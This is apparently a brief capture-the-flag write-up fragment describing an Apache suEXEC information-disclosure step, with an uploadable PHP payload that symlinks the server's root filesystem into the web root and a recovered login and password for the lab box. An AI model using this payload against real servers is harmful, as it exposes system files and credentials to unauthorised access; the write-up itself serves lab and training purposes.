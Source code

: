 # Apache suEXEC - Information Disclosure

The suEXEC feature provides Apache users the ability to run CGI and SSI programs
under user IDs different from the user ID of the calling web server. Normally,
when a CGI or SSI program executes, it runs as the same user who is running the
web server.
Used properly, this feature can reduce considerably the security risks involved
with allowing users to develop and run private CGI or SSI programs.

if we upload this php file like we did in write1 it will create a symlink with / in test99.php
<?php
        system("ln -sf / test99.php");
        symlink("/", "test99.php");
?>

We can access root filesystem and this password lmezard:G!@M6f4Eatau{sF"

then follow writeup1

